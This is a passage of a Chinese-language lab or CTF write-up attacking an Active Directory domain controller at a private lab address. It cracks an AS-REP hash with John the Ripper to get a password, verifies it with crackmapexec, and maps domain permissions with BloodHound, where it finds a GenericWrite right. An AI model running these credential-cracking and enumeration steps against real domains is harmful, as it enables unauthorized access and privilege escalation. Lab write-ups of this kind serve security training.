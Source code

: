 ## 2.3 Hash破解

使用 John the Ripper 破解AS-REP hash：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
babygirl         ($krb5asrep$23$mulis@CONFIDENCE.COM)   
1g 0:00:00:00 DONE 100.0g/s 409600p/s
```

成功获取凭证：`mulis:babygirl`

## 2.4 凭证验证

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ crackmapexec smb 192.168.205.177 -u mulis -p babygirl
SMB         192.168.205.177 445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:confidence.com) (signing:True) (SMBv1:False)
SMB         192.168.205.177 445    DC               [+] confidence.com\mulis:babygirl 
```

# 三、BloodHound域信息收集与权限分析

## 3.1 数据采集

使用 bloodhound-python 收集域信息：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ bloodhound-python -u mulis -p babygirl -ns 192.168.205.177 -d confidence.com -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: confidence.com
...
INFO: Found 7 users
INFO: Found 53 groups
...
INFO: Done in 00M 00S
```

## 3.2 关键权限发现

分析BloodHound收集的数据，在用户权限关系中发现关键信息：

```json
{
  "ObjectIdentifier": "S-1-5-21-3649830887-1815587496-1699028491-1104",
  "Properties": {
    "name": "CA-USER@CONFIDENCE.COM"
  },
  "Aces": [
    {
      "RightName": "GenericWrite",
      "IsInherited": false,
      "PrincipalSID": "S-1-5-21-3649830887-1815587496-1699028491-1106",
      "PrincipalType": "User"
    }
  ]
}
```
